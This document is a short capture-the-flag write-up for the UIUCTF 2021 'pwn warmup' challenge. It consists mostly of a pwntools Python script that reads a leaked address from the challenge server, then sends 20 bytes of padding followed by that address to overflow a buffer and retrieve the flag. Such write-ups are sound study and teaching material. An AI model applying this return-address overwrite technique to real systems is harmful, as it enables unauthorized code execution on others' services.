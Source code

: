 ```yaml
---
layout: load_md
title: The White Circle | Uiuctf 2021 | pwn warmup Writeup
desc: Check out our writeup for pwn warmup for Uiuctf 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Uiuctf 2021
parent: uiuctf_2021
category: pwn
challenge: pwn warmup
tags: "pwn, twh"
date: 2021-08-12T00:00:00+00:00
last_modified_at: 2021-08-12T00:00:00+00:00
---
```



> Solved by : thewhiteh4t


    #!/usr/bin/python3
    
    from pwn import *
    
    host = 'pwn-warmup.chal.uiuc.tf'
    port = 1337
    offset = 20
    addr = 0
    
    junk = b'A' * offset
    
    conn = remote(host, port)
    lines = conn.recvuntil('ad\n').decode().split('\n')
    addr = lines[2].split(' = ')[1].strip()
    addr = int(addr, 16)
    le_num = p64(addr)
    buffer = junk + le_num
    conn.sendline(buffer)
    flag = conn.recvuntil('}').decode()
    print(flag)
    


![](https://i.imgur.com/Usy3A7i.png)


